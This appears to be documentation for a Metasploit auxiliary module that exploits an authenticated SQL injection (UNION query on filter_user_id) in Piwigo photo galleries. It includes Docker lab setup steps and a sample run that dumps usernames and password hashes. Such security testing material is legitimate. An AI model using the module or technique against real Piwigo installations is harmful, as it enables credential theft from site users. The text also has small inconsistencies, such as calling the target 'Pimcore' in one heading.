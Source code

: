 ## Description

  This module exploits a authenticated SQL injection vulnerability in Piwigo's photo galery for versions below 13.5.0. By using a UNION query on the `filter_user_id` parameter, this module can steal the usernames and password hashes of all users of Piwigo.

## Vulnerable Application

   Install docker [https://docker.io](docker.io) and follow the steps bellow:

   1 - Dockerfile with vulnerable version
   
   ```dockerfile

    FROM alpine:3.10.3
    LABEL maintainer="Moritz Heiber <hello@heiber.im>"

    ENV PIWIGO_VERSION="13.5.0"
    RUN set -x && apk --no-cache add curl php7 php7-gd php7-mysqli php7-json php7-session php7-exif && \
      curl "http://piwigo.org/download/dlcounter.php?code=${PIWIGO_VERSION}" --output piwigo.zip && \
      adduser -h /piwigo -DS piwigo && unzip piwigo.zip -d /piwigo && \
      install -d -o piwigo /piwigo/piwigo/galleries /piwigo/piwigo/upload && \
      chown -R piwigo /piwigo/piwigo/local && \
      apk --no-cache del curl && rm piwigo.zip

    WORKDIR /piwigo
    USER piwigo

    CMD ["php","-S","0.0.0.0:8000","-t","piwigo"]
   
   ```
   2 - install `docker-compose` and create the following file:

   ```yaml 
           version: '3'
        services:
          piwigo:
            container_name: piwigo
            image: piwigo-docker
            networks:
              - piwigo
            ports:
              - "8000:8000"
          mysql:
            container_name: piwigo_mysql
            image: arm64v8/mysql (change to you arch !!)
            command: ["--default-authentication-plugin=mysql_native_password"]
            networks:
              - piwigo
            environment:
              MYSQL_USER: "piwigo"
              MYSQL_PASSWORD: "piwigo"
              MYSQL_DATABASE: "piwigo"
              MYSQL_RANDOM_ROOT_PASSWORD: "true"

        networks:
          piwigo:
   ```
   3 - Execute the following commands

   ```bash
   $ docker build -t piwigo-docker ./
   $ docker-compose up -d
   # then Piwigo's installation page should be available at http://localhost:8000.
   # The default value for the database URL is mysql, the user is piwigo and the password is piwigo again. The initial database being created is called piwigo.
   ```

## Scenarios

### Tested on Ubuntu 22.04.2 Running Pimcore v13.5.0

```
msf6 auxiliary(gather/piwigo_cve_2023_26876) > reload
[*] Reloading module...
msf6 auxiliary(gather/piwigo_cve_2023_26876) > run
[*] Running module against 127.0.0.1

[*] try to log in..
[+] successfully logged into Piwigo!!
[+] target is vulnerable
[+] get your l00t $

Piwigo Users
============

 username  hash
 --------  ----
 admin     $P$GAO2fLIGJtRyQCNf96KbQ9PeiDAuii/
 guest
 piwigo    $P$GNrJljahQW2NXTXhWNZdalgGiao/T1/
 user      $P$GE/wX1wqKM0WKkAGXvhYihdPhgl5Mw/

[*] Auxiliary module execution completed
msf6 auxiliary(gather/piwigo_cve_2023_26876) > 

```

